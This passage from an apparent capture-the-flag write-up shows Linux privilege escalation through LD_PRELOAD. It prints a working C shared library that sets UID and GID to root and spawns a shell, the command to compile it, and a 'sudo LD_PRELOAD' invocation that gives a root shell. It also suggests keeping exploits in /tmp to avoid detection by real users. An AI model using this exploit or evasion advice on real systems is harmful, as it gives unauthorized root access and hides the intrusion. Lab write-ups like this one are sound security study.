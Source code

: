 But, there is one very important part in the output from sudo -l, which you might have missed if you haven’t used it for privilege escalation before:

![](https://miro.medium.com/v2/resize:fit:253/1*T6TZvY1-5RDX6G30Icnu3Q.png)

What’s this?

By Simply googling “LD_PRELOAD” we get our answer:

> LD_PRELOAD is an optional Environment Variable that is used to set/load Shared Libraries to a program or script. That means we can set the value of the LD_PRELOAD Environment Variable for a program to tell the program to load the mentioned libraries in it’s memory before starting.

Now, If we search for “ld_preload privilege escalation” we get to [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).

You can go to the article and try exploiting this yourself, which is what I did. Here are the steps:

First, we create a shell.c file in /tmp (doesn’t have to be in /tmp , but placing exploits in /tmp to avoid detection by the real users is good practice):

![](https://miro.medium.com/v2/resize:fit:330/1*6NKg6O6-87msaIFN6-7DWQ.png)

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

This is a very simple C code that simply sets the UID and GID to 0 (root), and then spawns a shell.

Next, we compile the code with “gcc” and specify that this is a shared library:

```php
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

You will get a few warning messages which you can just ignore.

Now, all that we have to do, is to run “sudo ping” while setting the environmental variable “LD_PRELOAD” to the path of our malicious library.

Before ping is executed, the library will be loaded , and since we are running this with sudo, we should be able to get a root shell!

```php 
sudo LD_PRELOAD=/dev/shm/.zod/hello/shell.so ping
```

![[Pasted image 20240714112418.png]]

**FLAG:**
**992bfd94b90da48634aed182aae7b99f**
